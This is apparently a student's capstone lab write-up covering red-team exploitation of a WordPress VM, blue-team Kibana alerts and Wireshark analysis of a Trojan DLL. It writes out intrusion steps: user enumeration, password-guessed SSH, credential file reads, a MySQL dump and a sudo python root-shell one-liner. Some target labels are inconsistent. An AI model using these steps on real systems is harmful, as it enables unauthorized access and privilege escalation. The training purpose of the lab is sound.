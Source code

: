 # Final-Project
Red Team, Blue Team, and Network Analysis

# Red Team: Summary of Operations
## Table of Contents
### Exposed Services
### Critical Vulnerabilities
### Exploitation
### Exposed Services
<details>
  <summary> NMAP Scan </summary>
  <pre>
NMAP:
 Nmap scan results for each machine reveal the below services and OS details:
$ nmap -sV 192.168.1.*
  #Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-26 15:14 PST
Nmap scan report for 192.168.1.1
Host is up (0.00054s latency).
Not shown: 995 filtered ports
PORT 	STATE SERVICE   	VERSION
135/tcp  open  msrpc     	Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 
Nmap scan report for 192.168.1.100
Host is up (0.00039s latency).
Not shown: 998 closed ports
PORT 	STATE SERVICE VERSION
22/tcp   open  ssh 	OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http	Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.105
Host is up (0.00088s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http	Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.110
Host is up (0.00091s latency).
Not shown: 995 closed ports
PORT	STATE SERVICE 	VERSION
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.115
Host is up (0.00038s latency).
Not shown: 995 closed ports
PORT	STATE SERVICE 	VERSION
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Nmap scan report for 192.168.1.90
Host is up (0.0000070s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 8.1p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 28.24 seconds
 
This scan identifies the services below as potential points of entry:
Target 1 192.168.1.100
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 	2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
</pre>
</details>

The following vulnerabilities were identified on each target:
Target 1
<br> HTTP Port access
<br> Wordpress site using WPscan
<br> Dirb scan
<br> `Wpscan –url http://192.168.1.110/wordpress –enumerate u`
<br> SSH into an account with open port 22
<br> Ssh michael@192.168.1.110 with password michael
<br>Navigate to /var/www/http/wordpress
<br> `cat/nano/less wp-config.php`

Port 80 is unsecured (HTTP) and finding it as a Wordpress Site created an opportunity for exploit. Additionally, Port 22 is also open so SSH services are accessable. 

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
Target 1
### Flag 1
Found in service.html:

Flag1.txt:
flag1{b9bbcb33e11b80be759c4e844862482d}

### Flag 2 Exploit Used
Getting into michael’s account via ssh; one avenue of searching is to grep 
I ended up lessing some of the html files and found the flag

Flag2.txt:
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


### Flag 3 Exploit Used
Found in the www directory

Flag3.txt
flag3{afc01ab56b50591e7dccf93122770cd2}
```
michael@target1:~$ mysql -u root -p

mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_posts;
```
Found in the mySQL command: wordpress database in the wp_posts table
### Flag 4 Exploit Used

Flag4.txt
Flag4{715dea6c055b9fe3337544932f2941ce}
`sudo python -c 'import os; os.system("/bin/sh")'`

This reverse shells from steven user to root privilege
'Sudo -ls' shows what command can be executed by user: which steven can execute python scripts without passwords in sudo.
Using cd: it took me to the root home folder and flag4.txt was in there



# Blue Team: Summary of Operations
## Table of Contents
### Network Topology
### Description of Targets
### Monitoring the Targets
### Patterns of Traffic & Behavior

## Network Topology
The following machines were identified on the network:
Name of VM 1: Kali
Operating System:Kali
Purpose: Red team usage; use to attack Target 1 and 2
IP Address: 192.168.1.90
Name of VM 2: Target 1
Operating System: Linux 3.2-4.9
Purpose: Hosts website RavenSecurity
IP Address: 192.168.1.110
Name of VM 3: Target 2
Operating System: Linux 3.2-4.9
Purpose: Second Box to attack
IP Address: 192.168.1.115
Name of VM 4: ELK
Operating System: No scans on NMAP
Purpose: Generates logs
IP Address: 192.168.1.100
Name of VM 5: Capstone
Operating System: Linux 3.2-4.9
Purpose: Practice alerts
IP Address: 192.168.1.105
Description of Targets
The target of this attack was: Target 1 (192.168.1.110).
Target 1 is an Apache web server and has SSH enabled, so ports 80 and 22 are possible ports of entry for attackers. As such, the following alerts have been implemented:
Monitoring the Targets
Traffic to these services should be carefully monitored. To this end, we have implemented the alerts below:
## Name of Alert 1:
Packetbeat: HTTP Response Code
Alert 1 is implemented as follows:
Metric: HTTP response code
Threshold: Above 400
Vulnerability Mitigated: Determines an alert based on http response code.
Reliability: Medium, depending on how active the site is used. There were a few pings that triggered this alert.
## Name of Alert 2
Packetbeat: HTTP Request Bytes
Alert 2 is implemented as follows:
Metric: Packetbeat: HTTP request bytes threshold
Threshold: 3500
Vulnerability Mitigated: Data accessing thresholds.
Reliability: Low: The majority of alerts, if I am correctly reading my Kibana, is from request bytes.
## Name of Alert 3
Metricbeat CPU Utilization
Alert 3 is implemented as follows:
Metric: Metricbeat: CPU process power
Threshold: Over 0.5%
Vulnerability Mitigated: Mitigates excessive task power which might seem abnormal to regular functions.
Reliability: High: most of the pings were of less than .3% of cpu utilization. 

# Network Analysis: Summary of Operations
## Case: Time Thieves
### Setup: At least two users on the network have been wasting time on YouTube. Usually, IT wouldn't pay much mind to this behavior, but it seems these people have created their own web server on the corporate network. So far, Security knows the following about these time thieves: They have set up an Active Directory network. They are constantly watching videos on YouTube. Their IP addresses are somewhere in the range 10.6.12.0/24.

### You must inspect your traffic capture to answer the following questions:

#### Using Wireshark and creating a 15 minute scan of the network, I was able to derive the following:

*What is the domain name of the users' custom site?*

10.6.12.157(DESKTOP-86J4BX IP address) > 10.6.12.12 (DC IP Address): frank-n-ted.com

*What is the IP address of the Domain Controller (DC) of the AD network?*

From “Frank-n-Ted-DC.frank-n-ted.com”: The IP Address is 10.6.12.12

*What is the name of the malware downloaded to the 10.6.12.203 machine? Once you have found the file, export it to your Kali machine's desktop.*

There is a file that was uploaded called june11.dll that is concerning. dlls are libraries that contain code that can be executed and given that this one was downloaded by a malicious actor and one of only a few items downloaded, it was investigated.

*Upload the file to VirusTotal.com. What kind of malware is this classified as?*

The Malware is considered a Trojan Spy from many of the detection sites. 
